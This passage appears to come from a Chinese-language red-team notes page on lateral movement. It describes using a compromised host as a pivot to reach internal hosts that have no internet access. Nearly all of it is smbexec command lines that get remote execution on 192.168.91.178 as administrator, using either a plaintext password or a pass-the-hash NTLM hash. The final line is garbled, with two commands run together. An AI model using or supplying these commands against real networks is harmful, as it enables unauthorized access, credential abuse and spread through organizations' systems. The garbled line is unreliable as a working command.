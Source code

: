 
利用拿下的主机做跳板尝试拿下其他不出网主机

[![](assets/1702372940-79f3485df8829cd6b7a7be75f34e0e14.png)](https://raw.githubusercontent.com/xidaner/ImageShackDrive/main/img/RED/OS/%E5%86%85%E7%BD%91/CS-%E5%86%85%E7%BD%91%E6%A8%AA%E5%90%91/20.png)

#### [](#smbexec "smbexec")smbexec[](#smbexec)

外部：(交互式)，和psexec一样

```bash
smbexec ./administrator:Abcd1234@192.168.91.178

smbexec god/administrator:Abcd1234@192.168.91.178

smbexec -hashes :c780c78872a102256e946b3ad238f661 ./administrator@192.168.91.178

smbexec -hashes :c780c78872a102256e946b3ad238f661 god/administrator@192.168.91.178smbexec -hashes god/administrator:c780c78872a102256e946b3ad238f661@192.168.91.178
```
